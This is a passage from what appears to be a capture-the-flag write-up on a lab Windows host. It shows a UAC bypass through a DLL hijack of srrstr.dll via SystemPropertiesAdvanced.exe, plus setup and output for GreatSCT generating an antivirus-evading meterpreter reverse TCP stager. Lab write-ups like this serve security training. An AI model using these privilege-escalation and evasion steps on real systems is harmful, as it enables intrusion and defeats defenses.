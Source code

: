 ```
C:\Users\Batman\Documents>findstr /C:"<autoElevate>true" C:\windows\SysWOW64\SystempropertiesAdvanced.exe
findstr /C:"<autoElevate>true" C:\windows\SysWOW64\SystempropertiesAdvanced.exe
        <autoElevate>true</autoElevate>
```

And because when executed, it attempts to load the DLL "srrstr.dll" from the WindowsApps folder, which is included in our `PATH` environment variable:

```
C:\Users\Batman\Documents>echo %PATH%
echo %PATH%
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\Batman\AppData\Local\Microsoft\WindowsApps
```

This means that if we can place a malicious DLL in `C:\Users\Batman\AppData\Local\Microsoft\WindowsApps` called **srrstr.dll**, then execute `SystemPropertiesAdvanced.exe` from a medium-integrity process, srrstr.dll (and any of its child processes) will be spawned as a high-integrity process!

**But there's still one more problem to overcome...**

Our UAC bypass needs to be applied to an *interactive process* running as a standard user, otherwise the elevation of privileges won't be correctly applied to the newly-spawned process. This means that we need to execute `SystemPropertiesAdvanced.exe` from an interactive process.

To achieve this, I'll use meterpreter's functionality to find interactive processes and migrate into one before executing our UAC bypass / DLL hijack. In order to get meterpreter running on the victim host, we'll also need to obfuscate our meterpreter payload otherwise Windows Defender will stop us in our tracks. 

---
### Meterpreter Antivirus Evasion 

I've previously had success with a tool called [Ebowla](https://github.com/Genetic-Malware/Ebowla) but it's no-longer supported so I'll give [GreatSCT](https://github.com/GreatSCT/GreatSCT) a go. According to its GitHub page, "GreatSCT is a tool designed to generate metasploit payloads that bypass common anti-virus solutions and application whitelisting solutions".

Setting up GreatSCT is pretty straightforward
1. Clone the repo: `git clone https://github.com/GreatSCT/GreatSCT.git`
2. Navigate to the setup directory `cd GreatSCT/setup`
3. Run the setup script `sudo ./setup.sh -c`

After some time, GreatSCT should be good to go and I can use it to generate my own meterpreter payload. 

```
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 Payload information:

	Name:		Pure MSBuild C# Reverse TCP Stager
	Language:	msbuild
	Rating:		Excellent
	Description:    pure windows/meterpreter/reverse_tcp stager, no
	                shellcode

Payload: msbuild/meterpreter/rev_tcp selected

Required Options:

Name            	Value   	Description
----            	-----   	-----------
```

[arkham]: PS C:\Users\Batman\Documents> whoami